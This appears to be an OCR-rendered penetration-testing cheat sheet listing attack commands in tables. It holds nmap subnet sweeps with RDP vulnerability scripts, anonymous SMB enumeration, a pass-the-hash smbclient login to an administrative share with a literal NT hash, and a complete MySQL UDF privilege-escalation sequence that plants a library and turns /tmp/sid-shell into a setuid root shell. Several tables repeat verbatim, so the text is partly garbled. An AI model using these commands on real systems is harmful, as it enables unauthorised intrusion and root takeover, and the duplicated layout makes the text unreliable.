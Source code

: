 


| Services Enumeration  |
| ------------- |
| nmap -Pn -n --open -p500  192.168.0.0/24 |
| nmap -Pn -n --open -p161  192.168.0.0/24 |
| nmap -Pn -n --open -p6000-6005 --script=x11-access 172.31.6.0/24  |
| nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |


| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |
| smbclient \\\\10.10.10.103\\C$ -U "Administrator" --pw-nt-hash f6b7160bfc91823792e0ac3a162c9267 |
| nmap -Pn -n --open -p3389 --script=rdp-vuln-ms12-020,rdp-enum-encryption 172.31.6.0/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 |
| nmap -sT -PN -n -sV -p 21,22,23,25,80,110,139,443,445,1433,1521,3306,3389,8080,10000 192.168.2.9/24 | awk '/22\/open/ {print $2}' |


| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

| Linxu and Microsoft RPC Enumeration  |
| ------------- |
| smbclient -N -L \\\\10.10.10.103 | grep Disk | sed 's/^\s*\(.*\)\s*Disk.*/\1/' |
| smbclient -N -L \\\\10.10.10.103 |

| MySQL UDF Privilge Escalation  |
| ------------- |
|gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc|
| use mysql; |
|create table npn(line blob); |
| insert into npn values(load_file('/tmp/raptor_udf2.so')); |
|select * from npn into dumpfile '/usr/lib/raptor_udf2.so';|
| create function do_system returns integer soname 'raptor_udf2.so'; |
| select do_system('chown root:root /tmp/sid-shell; chmod +s /tmp/sid-shell'); |
